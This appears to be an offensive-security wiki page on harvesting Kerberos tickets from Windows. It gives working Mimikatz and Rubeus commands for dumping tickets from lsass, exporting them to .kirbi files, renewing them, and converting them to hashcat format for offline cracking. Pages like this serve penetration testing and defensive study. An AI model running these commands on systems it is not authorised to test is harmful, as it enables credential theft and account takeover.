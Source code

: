 # Harvesting tickets from Windows

{{#include ../../banners/hacktricks-training.md}}

Tickets in Windows are managed and stored by the **lsass** (Local Security Authority Subsystem Service) process, responsible for handling security policies. To extract these tickets, it's necessary to interface with the lsass process. A non-administrative user can only access their own tickets, while an administrator has the privilege to extract all tickets on the system. For such operations, the tools **Mimikatz** and **Rubeus** are widely employed, each offering different commands and functionalities.

### Mimikatz

Mimikatz is a versatile tool that can interact with Windows security. It's used not only for extracting tickets but also for various other security-related operations.

```bash
# Extracting tickets using Mimikatz
sekurlsa::tickets /export
```

### Rubeus

Rubeus is a tool specifically tailored for Kerberos interaction and manipulation. It's used for ticket extraction and handling, as well as other Kerberos-related activities.

```bash
# Dumping all tickets using Rubeus
.\Rubeus dump
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))

# Listing all tickets
.\Rubeus.exe triage

# Dumping a specific ticket by LUID
.\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))

# Renewing a ticket
.\Rubeus.exe renew /ticket:<BASE64_TICKET>

# Converting a ticket to hashcat format for offline cracking
.\Rubeus.exe hash /ticket:<BASE64_TICKET>
```

When using these commands, ensure to replace placeholders like `<BASE64_TICKET>` and `<luid>` with the actual Base64 encoded ticket and Logon ID respectively. These tools provide extensive functionality for managing tickets and interacting with the security mechanisms of Windows.

## References

- [https://www.tarlogic.com/en/blog/how-to-attack-kerberos/](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)

{{#include ../../banners/hacktricks-training.md}}
